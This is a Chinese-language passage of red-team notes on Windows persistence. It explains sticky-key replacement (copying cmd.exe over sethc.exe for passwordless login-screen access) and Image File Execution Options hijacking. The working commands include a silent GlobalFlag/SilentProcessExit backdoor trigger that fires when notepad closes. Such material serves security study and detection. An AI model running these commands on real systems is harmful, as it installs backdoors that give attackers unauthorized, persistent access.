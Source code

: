 ## **白加黑(dll劫持)/进程注入**

## **粘滞键劫持**
Shift粘滞键是当用户连按5次shift就会自动弹出的一个程序，其实不光是粘滞键，还有各种辅助功能快捷键。
这类辅助功能都拥有一个特点就是当用户未进行登录时也可以触发。
所以攻击者很有可能通过篡改这些辅助功能的指向程序来达到权限维持的目的。

这里的整体思路就是通过修改替换这个粘滞键程序，
将后门木马或者cmd修改为这个粘滞键程序的名字，在管理员修改登录密码后，
攻击者可以在登陆窗口按5次Shift粘滞键就会调用程序，无需密码登录。
PS：高版本的Windows系统中无法使用。

替换粘滞键：
粘滞键位置C:\windows\system32\sethc.exe
必须是system权限才能执行，administrator都是无法对其进行修改的。
```
move sethc.exe sethc1.exe
copy cmd.exe sethc.exe
```

^
## **映像劫持**
一个程序当要运行的时候，会去检查注册表，如果有指定的程序并且开启了debugger，那么会优先执行debuggr指定的程序，这样就会造成映像劫持。
产生：修改注册表的指向

分析：使用PCHunter-电脑杂项-映像劫持，查看查看映像劫持，可以删除。
可被映像劫持的程序的注册表位置：
win+r：regedit 
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
```

修改笔记本程序注册表执行恶意程序
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ImageFile Execution Options\notepad.exe"/v debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe /c calc"
```
把打开笔记本命令notepad，变成打开计算器。

无感映像劫持：
隐藏劫持就是配合GlobalFlag来实现，执行正常关闭后触发，也就是说当记事本执行后，木马是不会被执行的，同时记事本依旧是能够正常运行的，相当于无感操作，但是当关闭记事本的时候，就会自动触发执行后门木马。
```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\1\3000.exe"
```











